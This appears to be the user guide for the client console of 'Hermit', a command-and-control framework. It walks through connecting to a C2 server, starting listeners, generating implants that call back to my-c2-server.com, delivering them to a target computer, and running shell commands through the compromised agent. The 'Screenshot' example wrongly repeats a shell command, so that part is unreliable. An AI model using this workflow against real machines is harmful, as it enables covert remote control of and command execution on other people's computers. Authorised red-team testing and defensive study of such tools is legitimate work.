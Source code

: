 +++
title = "C2 Client"
date = 2024-01-02
[extra]
toc=true
+++

## Run (Connect to C2 Server)

First of all, execute `hermit client` command to connect the C2 server. Of course the C2 server needs to be running before that.

```sh
Hermit $ hermit client -H my-c2-server.com -P 9999
```

After connecting, the console will start.

<br />

## Help

```sh
Hermit $ help
```

<br />

## Listener

### Add New Listener

```sh
Hermit $ listener add -H my-c2-server.com -P 8000
```

Once the listener is added successfully, we can see it with `listeners` (or `listener list`) command.

```sh
Hermit $ listeners
```

<br />

### Start Listener

After adding a listener as the previous section, we can start it by `listener start <ID or Name>` command.

```sh
Hermit $ listener start 1
```

<br />

## Implant

### Generate Implant

We can generate implants with `implant gen` command with specifying a listener URL.

```sh
Hermit $ implant gen -l http://my-c2-server.com:8000/
```

After generating, we can see it by `implants` (or `implant list`) command.

```sh
Hermit $ implants
```

After that, we need to transfer the implant to target computer and execute it.

<br />

## Agent

When the agent has been registered by executing the implant, we can see it with `agents` (or `agent list`) command.

```sh
Hermit $ agents
```

<br />

### Interact with Agent

To interact with a specific agent for attacking, we can run `agent use <ID or Name>` command.

```sh
Hermit $ agent use 0
```

This command switches to the specified agent mode.

<br />

### Agent Mode: Send Task

After entering the agent mode, we can simulate various attack method e.g. shell command, screenshot, etc.  

- **Shell Command**

```sh
Hermit [agent: agent_0123456] $ shell whoami
```

- **Screenshot**

```sh
Hermit [agetn: agent_0123456] $ shell whoami
```

<br />

## Exit

To quit the console, run `exit` command.

```sh
Hermit $ exit
```
